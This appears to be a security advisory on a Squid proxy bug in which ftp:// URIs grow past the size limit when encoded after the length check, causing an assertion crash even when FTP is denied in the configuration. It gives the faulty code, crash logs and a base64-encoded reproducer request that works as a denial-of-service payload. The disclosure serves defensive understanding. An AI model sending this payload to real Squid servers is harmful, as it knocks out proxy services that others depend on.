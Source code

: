 # FTP URI Assertion
FTP (File Transfer Protocol) is a 50-year-old protocol which is used for the transfer of files across networks. Unlike HTTP, FTP is stateful, meaning that (generally) a connection is held open for multiple file transfers rather than a single file. Likewise, unlike HTTP which generally requires sending a single request, FTP uses multiple commands and responses which must be dealt with before any file transfer actually happens.
There are some interesting features of FTP which go beyond the scope of this post, however the tunneling or proxying of FTP through HTTP is an interesting topic worth reading more about, especially how to *efficiently* deal with each command and response.

Squid is able to act as both a [native FTP relay](https://wiki.squid-cache.org/Features/FtpRelay), and a proxy. In the latter case, bridging an HTTP-user to an FTP-server.  In the former case, a client can send an *FTP* command to Squid, which squid interprets (and actually converts to HTTP, then re-converts to FTP), and subsequently sends it to the destination FTP server. The reply is eventually sent back to the client.

## The Issue
When a client requests a page using the `ftp://` scheme, Squid checks the URI's length to see if it is too long to handle (65535-bytes). However, this check is done too early, and requests which correspond to `ftp://` links are encoded using the method set forth in RFC 1738.
For example, the octal `\347` is encoded to `%FFFFFFE7`(aka `\xE7`). The issue here is that a single-byte character may be expanded to 9-bytes. Therefore, a link of 7282-bytes long will be expanded to 65538-byte.
Squid is unable to process such large URIs, and will assert if such a request is made.

The specifics are uninteresting, but the general issue is due to the function `AnyP::Uri::absolute` being used to set the URI of a request after a check of the URI's length has already been made. We can see what `AnyP::Uri::absolute` does:
```
SBuf &
AnyP::Uri::absolute() const
{   
    if (absolute_.isEmpty()) {
        // TODO: most URL will be much shorter, avoid allocating this much
        absolute_.reserveCapacity(MAX_URL);

        absolute_.append(getScheme().image());
        absolute_.append(":",1);
        if (getScheme() != AnyP::PROTO_URN) {
            absolute_.append("//", 2);
            const bool allowUserInfo = getScheme() == AnyP::PROTO_FTP ||
                                       getScheme() == AnyP::PROTO_UNKNOWN;

            if (allowUserInfo && !userInfo().isEmpty()) {
                static const CharacterSet uiChars = CharacterSet(UserInfoChars())
                                                    .remove('%')
                                                    .rename("userinfo-reserved");
                absolute_.append(Encode(userInfo(), uiChars));
                absolute_.append("@", 1);
            }
            absolute_.append(authority());
            [...]
```
Specifically, if the request is an FTP request, the `Encode` function is called, which does RFC 1738-type encoding.


A reproducer is given **base64-encoded**.

**Note: This does NOT require Squid to even be enabled to proxy FTP links. Even with the following configuration, this crash will occur:**

```
acl ftp proto FTP
http_access deny ftp
```

The following request will cause an assertion:
```
2021/04/20 02:16:17.334| 85,3| client_side_reply.cc(1614) identifyFoundObject: StoreEntry is NULL -  MISS
2021/04/20 02:16:17.334| 88,4| client_side_reply.cc(729) processMiss: GET [extremely long URI]
2021/04/20 02:16:17.343| 20,3| store.cc(767) storeCreatePureEntry: storeCreateEntry: [extremely long URI]
2021/04/20 02:16:17.354| 20,5| store.cc(368) StoreEntry: StoreEntry constructed, this=0x60c000047c80
2021/04/20 02:16:17.354| 20,3| MemObject.cc(100) MemObject: MemObject constructed, this=0x613000009dc0
2021/04/20 02:16:17.355| assertion failed: String.cc:37: "aSize <= SizeMax_"
    current master transaction: master53
```

```
R0VUIGZ0cDovLzAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDDNwbAwMDDn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fnMDAw5+fn5+fn5+fn5+fn5+fnMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDDn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5/fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+ff39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f39/f
39/f39/f39/n5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fnMDAwMDAwMDAwMDAwMDAwMOfn5+fn
5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn
5+fn5+fn5+fnMDAwMJBAMD8wMDAwMDAwCg==
```
